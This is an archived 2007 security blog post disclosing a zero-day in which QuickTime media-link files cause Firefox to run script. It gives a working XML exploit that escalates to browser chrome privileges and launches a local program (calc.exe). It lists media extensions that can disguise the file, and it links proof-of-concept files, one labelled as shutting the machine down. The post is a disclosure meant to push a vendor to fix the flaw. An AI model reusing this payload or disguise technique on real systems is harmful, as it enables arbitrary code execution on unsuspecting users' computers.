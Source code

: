 ```yaml
---
title: 0DAY QuickTime pwns Firefox
author: petko-d-petkov
date: Wed, 12 Sep 2007 12:05:53 GMT
template: post.jade
category: fucked
---
```


It seams that QuickTime media formats can cause Firefox to misbehave. The result of this vulnerability can lead to full compromise of the browser.

Before we move on, I have to say a few things. Last year I disclosed two QuickTime vulnerabilities [here](/blog/backdooring-quicktime-movies/) and [here](/blog/backdooring-mp3-files/). The first vulnerability was fixed but the second one was completely ignored. I tried to bring the spot light on the second vulnerability one more time over [here](/blog/myspace-quicktime-worm-follow-up) without much of success. So, I decided to post a demonstration of how a _Low risk_ issue can be turned into a very easy to perform **HIGH risk** attack when technology change.

The exploit is rather simple. But first, here is a simple QTL file which instructs the browser to display a friendly `alert('whats up...')` message on the screen:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="presentation.mov" autoplay="true" qtnext="javascript:alert('whats up...')"/>
```

The most interesting thing about this simple XML file is that we can save it with QuickTime supported extension in order to mislead the user. If you check [about:plugins](about:plugins) under Firefox,  you will see that QuickTime supports several media formats. We can use the audio and video formats only. This means that you can paste the above code into files with extensions: `3g2, 3gp, 3gp2, 3gpp, AMR, aac, adts, aif, aifc, aiff, amc, au, avi, bwf, caf, cdda, cel, flc, fli, gsm, m15, m1a, m1s, m1v, m2a, m4a, m4b, m4p, m4v, m75, mac, mov, mp2, mp3, mp4, mpa, mpeg, mpg, mpm, mpv, mqv, pct, pic, pict, png, pnt, pntg, qcp, qt, qti, qtif, rgb, rts, rtsp, sdp, sdv, sgi, snd, ulw, vfw, wav` and others.

Enough theory, let's see some action. For more information, just read [this](/blog/backdooring-mp3-files/) blog post. The exploit that gains chrome privileges looks like this:

```xml
<?xml version="1.0">
<?quicktime type="application/x-quicktime-media-link"?>
<embed src="a.mp3" autoplay="true" qtnext="-chrome javascript:file=Components.classes['@mozilla.org/file/local;1'].createInstance(Components.interfaces.nsILocalFile);file.initWithPath('c:\\windows\\system32\\calc.exe');process=Components.classes['@mozilla.org/process/util;1'].createInstance(Components.interfaces.nsIProcess);process.init(file);process.run(true,[],0);void(0);"/>
```

In practice I can do anything with the browser. However, just for the sake of this demonstration, I simply open **calc.exe**.

If you dare to try this in your browser, here is a list of a few files you have to click on. They are not malicious. You have my word: [qt-poc-01.mp3](http://www.gnucitizen.org/static/blog/2007/09/qt-poc-01.mp3), [qt-poc-02-shutdown-dont-click.mp3](http://www.gnucitizen.org/static/blog/2007/09/qt-poc-02-shutdown-dont-click.mp3), [qt-poc-03.mpeg](http://www.gnucitizen.org/static/blog/2007/09/qt-poc-03.mpeg), [qt-poc-04.mov](http://www.gnucitizen.org/static/blog/2007/09/qt-poc-04.mov), [qt-poc-05.avi](http://www.gnucitizen.org/static/blog/2007/09/qt-poc-05.avi).

_BTW, QuickTime comes by default with iTunes. Therefore, iTunes users are most affected, I believe._
